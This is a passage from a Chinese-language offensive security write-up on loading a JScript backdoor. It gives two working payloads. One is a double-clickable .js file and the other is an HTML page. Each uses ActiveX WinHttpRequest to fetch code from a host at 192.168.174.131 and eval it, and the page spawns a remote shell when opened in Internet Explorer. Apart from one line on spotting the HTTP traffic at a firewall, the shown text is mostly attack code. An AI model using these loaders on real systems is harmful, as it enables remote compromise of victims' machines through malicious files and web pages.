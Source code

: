 通信协议使用HTTP，通过防火墙拦截流量即可发现其中的攻击行为

### 3、更多加载方式

**（1）js文件**

可以放在js文件里面 双击js文件执行

```
h=new ActiveXObject("WinHttp.WinHttpRequest.5.1");
h.Open("GET","http://192.168.174.131/connect",false);
try{
h.Send();
B=h.ResponseText;
eval(B);
}
catch(e)
{
new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im wscript.exe",0,true);
}

```

后台进程为wscript.exe

**（2）尝试挂在网页里面**

```
<!doctype html public "-//w3c//dtd html 4.0 transitional//en">
<html>
<head>
 <title> new document </title>
 <meta name="generator" content="editplus">
 <meta name="author" content="">
 <meta name="keywords" content="">
 <meta name="description" content="">
 <script language="javascript" type="text/javascript">
h=new ActiveXObject("WinHttp.WinHttpRequest.5.1");
h.Open("GET","http://192.168.174.131/connect",false);
h.Send();
B=h.ResponseText;
eval(B);
</script>
</head>
<body>
</body>
</html>

```

使用ie打开会提示是否加载控件，如果允许，即可弹回shell

Chrome、Firefox不支持ActiveXObject，所以不会触发

0x07 小结
=======
